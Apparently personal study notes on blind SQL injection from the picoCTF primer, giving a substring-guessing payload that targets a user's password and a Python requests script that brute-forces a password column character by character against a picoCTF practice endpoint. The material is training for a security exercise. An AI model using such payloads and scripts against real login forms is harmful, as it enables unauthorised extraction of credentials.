 - this is when u can trick the application into returning stuff, but it doesn't actually show you the records

##### Solutions

- Guessing 1 character at a time :/
![image](https://primer.picoctf.org/images/3image14.png)
- if the application does tell u if it exists or not, you can guess a letter of the string at a time
- `' or username='picoctf' and (select substr(password, 1, 1))='a`
	- targets the user picoctf and tries to find their password
	- the select substr is to check if the first letter is 'a'
	- this can be very slow manually, so we can use python requests to brute force it
- Brute force:
	- 'Printable' is just a string with all the printable ASCII characters, and we iterate over them.
	- 'Binary' in mysql context, is just a way to specify the we want to make case sensitive comparisons. If we do not use it, we would not be able to identify if a character is lowercase or uppercase.
```python
import requests
from string import printable

accum = ""
for i in range(40):
  for letter in printable:
    accum += letter

    r = requests.post("https://primer.picoctf.org/vuln/web/blindsql.php?&username=WeDontCare&password=' or '"
    + letter +"'=( select substr(binary password,"+str(i)+",1) from pico_blind_injection where id=1 ) and ''= '")

    if 'NOTHING FOUND...' in r.text:
      accum = accum[:-1]
      print("nope")
    else:
      print(f"We found the character: {letter}")

print(accum)
```